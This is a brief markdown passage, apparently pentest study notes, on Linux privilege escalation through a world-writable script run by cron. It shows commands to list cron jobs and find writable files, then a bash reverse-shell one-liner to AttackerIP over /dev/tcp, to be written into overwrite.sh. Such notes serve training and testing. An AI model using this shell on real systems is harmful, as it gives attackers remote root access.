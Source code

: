# crontab

to display schedule task

```bash
cat /etc/crontab 
# And
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

![image.png](<../../../.gitbook/assets/image (1).png>)

we found two bash script so let’s know the privileges of this files

<figure><img src="../../../.gitbook/assets/image 1.png" alt=""><figcaption></figcaption></figure>

so we found \[`overwrite.sh](http://overwrite.sh)` we can write in this file so let’s take a revers shell

```bash
bash -c 'bash -i >& /dev/tcp/AttackerIP/portnumber 0>&1'
```

<figure><img src="../../../.gitbook/assets/image 2.png" alt=""><figcaption></figcaption></figure>

